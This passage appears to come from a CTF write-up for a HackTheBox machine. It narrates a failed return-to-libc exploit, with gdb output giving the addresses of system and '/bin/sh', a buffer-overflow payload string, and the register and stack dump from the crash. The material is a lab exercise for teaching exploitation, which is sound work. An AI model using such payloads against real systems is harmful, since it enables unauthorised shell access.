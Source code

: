 This assembly effectively takes the 0x1000 bytes in libc and makes it read only, no execute or write. When I was first here, I didn’t really understand why this was being done.

### Ret2Libc Fail

While I’ve already shown I can get a shell by making the stack executable and then jumping to my shellcode, my initial instinct was to use a return to libc attack. I walked through a lot of detail as to how this works in [Frolic](/2019/03/23/htb-frolic.html#background). Because I don’t have ASLR to contend with, the addresses in libc are static. I can find them in `gdb`:

```

gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e54da0 <__libc_system>

gdb-peda$ searchmem "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f759ab ("/bin/sh")   

```

While you may have already figured out how this relates to the assembly above, I didn’t notice yet, and kept going. With this information, I generated a stage three payoad:

```

"A"*76 + "\xa0\x4d\xe5\xb7EXIT\xab\x59\xf7\xb7"

```

But when I ran the exploit, it just crashed. I went with the manual method I used above to step through in gdb. When it crashed, the context was:

```

[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0xb7fccbcc --> 0x21000 
EDX: 0x0 
ESI: 0xb7fcc000 --> 0x1b1db0 
EDI: 0xb7fcc000 --> 0x1b1db0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
EIP: 0xb7e54da0 --> 0x8b0cec83
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xb7e54d97 <cancel_handler+231>:     pop    ebp
   0xb7e54d98 <cancel_handler+232>:     ret    
   0xb7e54d99:                          lea    esi,[esi+eiz*1+0x0]
=> 0xb7e54da0 <__libc_system>:          sub    esp,0xc
   0xb7e54da3 <__libc_system+3>:        mov    eax,DWORD PTR [esp+0x10]
   0xb7e54da7 <__libc_system+7>:        call   0xb7f39b0d <__x86.get_pc_thunk.dx>
   0xb7e54dac <__libc_system+12>:       add    edx,0x177254
   0xb7e54db2 <__libc_system+18>:       test   eax,eax
[------------------------------------stack-------------------------------------]
0000| 0xbffff610 ("JUNK\253Y\367\267", 'B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
0004| 0xbffff614 --> 0xb7f759ab ("/bin/sh")
0008| 0xbffff618 ('B' <repeats 12 times>, "\375!\003\001\375!\003\001<\016")
0012| 0xbffff61c ("BBBBBBBB\375!\003\001\375!\003\001<\016")
0016| 0xbffff620 ("BBBB\375!\003\001\375!\003\001<\016")
0020| 0xbffff624 --> 0x10321fd 
0024| 0xbffff628 --> 0x10321fd 
0028| 0xbffff62c --> 0x80000e3c (<main+197>:    mov    BYTE PTR [ebp-0x15],al)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
```